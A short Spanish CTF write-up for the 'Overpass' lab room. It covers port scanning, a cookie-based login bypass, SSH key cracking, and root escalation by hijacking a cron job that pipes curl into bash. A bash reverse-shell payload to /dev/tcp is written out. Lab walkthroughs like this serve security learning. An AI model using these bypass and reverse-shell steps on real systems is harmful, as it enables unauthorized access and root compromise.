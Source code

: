# Overpass
Room bastante interesante que explota conceptos interesantes como Broken Auth y con un Privesc poco común

Interesante: BrokenAuth , 
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
```

## Enum
### HTTP 
En el fuente de la main page podemos encontar el siguiente mensaje 
```
<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
```
Probablemente haga alusión al cifrado Cesar, puede que mas adelante nos haga falta

#### Gobuster
```
/aboutus (Status: 301)
/admin (Status: 301) -> Login Portal
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
```

Si observamos el codigo javascript usado para el login vemos que podemos hacer un bypass simplemente dejando la cookie sin valor, usando el siguiente snippet en la consola del navegador
```
Cookies.set("SessionToken", "")
```
Esto nos lleva a una zona de administración donde podemos ver una clave SSH para el usuario james, crackeamos la clave con ssh2john y vemos que la password para usarla es james13, con esto nos logeamos sin mas problema

## Privesc
En el crontab encontramos la siguiente tarea
```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
Para poder escalar usando esto necesitamos cambiar ese script por uno nuestro, esto lo podemos lograr cambiando la IP correspondiente a overpass.thm por la nuestra
Editamos /etc/hosts para cambiar la IP de overpass.thm por la nuestra , abrimos un servidor de python en local y creamos este script en el PATH especificado
```bash
#!/bin/bash
bash -i >& /dev/tcp/IP/8080 0>&1
```

Y con esto solo quedaria abrir un listener en nuestra máquina y coger la root flag 
